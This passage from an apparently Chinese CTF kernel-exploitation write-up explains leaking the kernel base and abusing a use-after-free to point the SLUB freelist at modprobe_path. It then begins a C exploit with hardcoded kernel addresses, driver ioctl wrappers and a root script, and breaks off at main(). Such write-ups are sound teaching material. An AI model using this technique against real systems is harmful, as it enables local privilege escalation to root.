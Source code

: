 在劫持`freelist`指向`modprobe_path`之前，我们需要思考如何泄露内核基地址。

师傅需要知道如下堆上的特性：

在堆地址`+ 0x9d000`处，存在一个地址：`secondary_startup_64`。因此，我们可以将`freelist`申请到这块`obj`，并泄露其中的内容，获取`secondary_startup_64`的地址，从而泄露内核基地址。

但由于`Random freelist`的存在，我们`UAF`的`obj`的地址是非常随机的，由此我们将其`& 0xfffffffff0000000`，猜测出其堆块基地址，若未命中，需要重新运行`exp`。

### 解题思路重点 - freelist合法性

在本题中，还需要注意保持`freelist`的合法性。

在用户态中，若我们让某条`tcache`链指向非法地址，则再次从该链中申请`chunk`时就会报错。

内核中也是如此，我们不能让`freelist`指向一个非法地址，即使是不再从里面申请也不行——因为很可能别的函数也会申请内存空间。因此，我们需要让`freelist`指针指向`0`。例如，在劫持`modprobe_path`的时候，我们可以指向其地址`-0x10`处：如此便可以让`freelist`中挂入的地址为`0`。

### 解题脚本

详细注释的`exp`脚本如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <stdarg.h>
#include "ltfallkernel.h"

#define SECONDARY_STARTUP_64 0Xffffffff81000030
#define MODPROBE_PATH 0xffffffff82444700

#define ROOT_SCRIPT_PATH "/home/shell.sh"

char root_cmd[] = "#!/bin/sh\nchmod 777 /flag\n";

typedef struct
{
    size_t *content;
    unsigned int offset;
    unsigned int size;
} book;

void note_read(int fd, book *b)
{

    ioctl(fd, 0x6666666, b);
}

void note_write(int fd, book *b)
{
    ioctl(fd, 0x7777777, b);
}

void note_add(int fd, book *b)
{
    ioctl(fd, 0x1111111, b);
}

int main()
{
    int dev_fd[5];
```
